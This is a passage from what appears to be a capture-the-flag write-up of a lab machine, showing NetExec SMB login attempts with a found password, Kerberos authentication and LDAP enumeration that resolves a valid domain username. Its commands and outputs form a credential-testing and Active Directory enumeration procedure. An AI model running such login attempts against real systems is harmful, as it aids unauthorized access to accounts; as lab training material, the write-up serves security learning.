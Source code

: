 ```powershell
Ping statistics for 10.10.16.5:
    Packets: Sent = 1, Received = 1, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 0ms, Maximum = 0ms, Average = 0ms
 
```





<figure><img src="../../../.gitbook/assets/imagen (225).png" alt=""><figcaption></figcaption></figure>



```bash
❯ nxc smb 10.10.11.181 -u 'mlovegod' -p 'AbsoluteLDAP2022!'
SMB         10.10.11.181    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.181    445    DC               [-] absolute.htb\mlovegod:AbsoluteLDAP2022! STATUS_LOGON_FAILURE 
❯ nxc smb 10.10.11.181 -u 'mlovegod' -p 'AbsoluteLDAP2022!' -k
SMB         10.10.11.181    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.181    445    DC               [-] absolute.htb\mlovegod:AbsoluteLDAP2022! KDC_ERR_C_PRINCIPAL_UNKNOWN 
```



```bash
❯ ldapsearch -H ldap://dc.absolute.htb -Y GSSAPI -b "DC=absolute,DC=htb" "(&(objectClass=user)(cn=*love*))"
SASL/GSSAPI authentication started
SASL username: svc_smb@ABSOLUTE.HTB
SASL SSF: 256
SASL data security layer installed.
# extended LDIF
#
# LDAPv3
# base <DC=absolute,DC=htb> with scope subtree
# filter: (&(objectClass=user)(cn=*love*))
# requesting: ALL
#

# m.lovegod, Users, absolute.htb
dn: CN=m.lovegod,CN=Users,DC=absolute,DC=htb
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: m.lovegod
```



```bash
❯ nxc smb 10.10.11.181 -u 'm.lovegod' -p 'AbsoluteLDAP2022!'
SMB         10.10.11.181    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.181    445    DC               [-] absolute.htb\m.lovegod:AbsoluteLDAP2022! STATUS_ACCOUNT_RESTRICTION 
❯ nxc smb 10.10.11.181 -u 'm.lovegod' -p 'AbsoluteLDAP2022!' -k
SMB         10.10.11.181    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.181    445    DC               [+] absolute.htb\m.lovegod:AbsoluteLDAP2022! 
```
